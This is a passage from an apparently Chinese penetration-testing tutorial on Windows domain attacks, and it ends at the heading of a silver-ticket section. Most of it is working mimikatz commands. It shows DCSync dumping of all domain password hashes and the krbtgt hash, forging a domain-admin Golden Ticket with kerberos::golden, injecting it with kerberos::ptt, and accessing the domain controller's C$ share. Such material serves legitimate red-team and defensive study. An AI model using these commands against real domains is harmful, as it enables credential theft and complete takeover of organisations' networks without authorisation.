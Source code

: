 ![](https://image.3001.net/images/20200304/1583302107796.png!small)

另外一种方式是通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取。

```
lsadump::dcsync /domain:test.com /all /csv
```

![](https://image.3001.net/images/20200304/15833021213249.png!small)

也可以制定获取某个用户的 hash：

```
lsadump::dcsync /domain:test.com /user:test
```

![](https://image.3001.net/images/20200304/15833021346659.png!small)

**3.4.2 黄金票据**

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash，就可以随意伪造 Ticket，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取 krbtgt 的用户 hash:

```
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```

![](https://image.3001.net/images/20200304/15833021454668.png!small)

在普通域成员上执行 dir 命令提示 “拒绝访问”：

![](https://image.3001.net/images/20200304/15833021564184.png!small)

之后利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid 值，如下：     

```
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
```

![](https://image.3001.net/images/20200304/15833021736848.png!small)

导入刚才生成的票据：

```
kerberos::ptt test.kiribi
```

导入成功后，可以获取域管权限：

```
Dir \\dc.abc.com\c$
```

![](https://image.3001.net/images/20200304/15833021917278.png!small)

**3.4.3 白银票据**
